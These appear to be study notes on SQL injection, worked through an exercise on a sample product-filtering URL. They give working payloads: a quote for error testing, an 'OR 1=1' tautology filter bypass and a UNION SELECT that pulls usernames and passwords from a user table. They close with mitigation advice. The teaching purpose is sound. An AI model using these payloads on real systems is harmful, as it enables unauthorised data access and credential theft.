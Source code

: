 
# SQL Injection (Slides 45–47) [[Q9]]

---

## 0. Clarification & Context
This document summarizes the key points from **Slides 45–47** on SQL Injection, then demonstrates how to exploit and bypass vulnerabilities using **Exercise 01** (product filtering by category). Examples refer to an e-commerce application that naively builds SQL queries from URL parameters.

---

## 1. Definition
- **SQL Injection** is a web-application vulnerability where user input is **directly concatenated** into SQL statements without a clear separation between **control instructions** (SQL keywords) and **data** (user-supplied values).
- This is not a flaw in the database system itself, but a defect in the server-side code that fails to validate, escape, or parameterize inputs.

---

## 2. Conditions for Vulnerability
1. **String-concatenation of inputs**: the application constructs queries like  
```text
   "... WHERE category = '" + userInput + "' ..."
```

2. **No input sanitization or escaping**: raw `userInput` is embedded unfiltered.
    
3. **Display of results or error messages**: database errors or returned rows are shown to the client, confirming injection success.
    

---

## 3. Attack Mechanism

1. **Locate injection point**: URL parameter, form field, HTTP header, etc.
    
2. **Test for vulnerability**:
    
    - Inject a single quote (`'`) → look for a SQL syntax error.
        
    - Inject a tautology (`' OR '1'='1`) → observe if more data appears.
        
3. **Exploit**:
    
    - **Bypass filters**: use `OR '1'='1' --` to force the WHERE clause to be always true and comment out the rest.
        
    - **Extract data**: use `UNION SELECT` to combine the original query’s results with data from other tables.
        
    - **Enumerate schema**: query metadata tables (e.g. `information_schema`).
        
4. **Analyze responses**: refine payloads based on returned data or error messages.
    

---

## 4. Exercise 01: Product Filtering by Category

### 4.1. Scenario

- **Initial URL**:
    
    ```
    https://insecure-website.com/products?category=Gifts
    ```
    
- **Server-side SQL**:
    
    ```sql
    SELECT id, nom, category, price
      FROM products
     WHERE category = '<userInput>'
       AND released = 1;
    ```
    
- **Goal**: demonstrate SQLi to
    
    1. Confirm the vulnerability
        
    2. Display all products
        
    3. Identify the injection type
        
    4. Extract data from the `user` table
        

---

### 4.2. Q1 – Confirming Vulnerability

- **Method**: induce a syntax error with an unmatched quote.
    
- **Payload**:
    
    ```
    category='
    ```
    
- **Test URL**:
    
    ```
    https://insecure-website.com/products?category=Gifts'
    ```
    
- **Expected outcome**: a database error (quoting mismatch) confirms unescaped input reaches the SQL engine.
    

---

### 4.3. Q2 – Displaying All Products

- **Objective**: bypass both the category filter and the `released = 1` check.
    
- **Technique**: tautology + comment.
    
- **Payload**:
    
    ```
    ' OR '1'='1 -- 
    ```
    
- **Encoded URL**:
    
    ```
    https://insecure-website.com/products?category=%27%20OR%20%271%27%3D%271%20--%20
    ```
    
- **Resulting SQL**:
    
    ```sql
    SELECT id, nom, category, price
      FROM products
     WHERE category = '' OR '1'='1' -- '
       AND released = 1;
    ```
    
- **Impact**: the WHERE clause always evaluates to true → all rows in `products` are returned.
    

---

### 4.4. Q3 – Injection Type

- **Observation**: the application returns query results directly in its HTTP response.
    
- **Conclusion**: this is **In-Band SQL Injection**—the attacker retrieves data via the same channel used to inject.
    

---

### 4.5. Q4 – Extracting the `user` Table

1. **Original query columns**: 4 (`id`, `nom`, `category`, `price`).
    
2. **Choose 4 columns from `user`**: e.g. `id`, `name`, `password`, `type_account`.
    
3. **Payload**:
    
    ```
    ' UNION SELECT id, name, password, type_account FROM user -- 
    ```
    
4. **Encoded URL**:
    
    ```
    https://insecure-website.com/products?category=%27%20UNION%20SELECT%20id%2C%20name%2C%20password%2C%20type_account%20FROM%20user%20--%20
    ```
    
5. **Combined SQL**:
    
    ```sql
    SELECT id, nom, category, price
      FROM products
     WHERE category = ''
    UNION
    SELECT id, name, password, type_account
      FROM user;  -- released = 1 is commented out
    ```
    
6. **Outcome**: the response will include rows from `user` in place of products, exposing usernames and passwords.
    

---

## 5. Mitigation & Best Practices

- **Use parameterized queries (prepared statements)** to enforce a strict separation between code and data.
    
- **Whitelist input validation**: reject any characters or patterns that do not conform to expected values.
    
- **Principle of least privilege**: limit the database account’s permissions to only what the application truly needs.
    
- **Regular security testing** (automated scans, code reviews, penetration tests).
    
- **Web Application Firewall (WAF)** as an additional layer, not a primary defense.
    

---

> **Opinion:** Relying on anything other than properly parameterized queries is a risky gamble. All other measures—firewalls, regex filters, manual sanitization—can be bypassed or misconfigured. The only reliable protection against SQLi is to treat user input strictly as data, never as executable SQL.



Tags: `#security` `#sql` `#web` `#injection` `#exercise`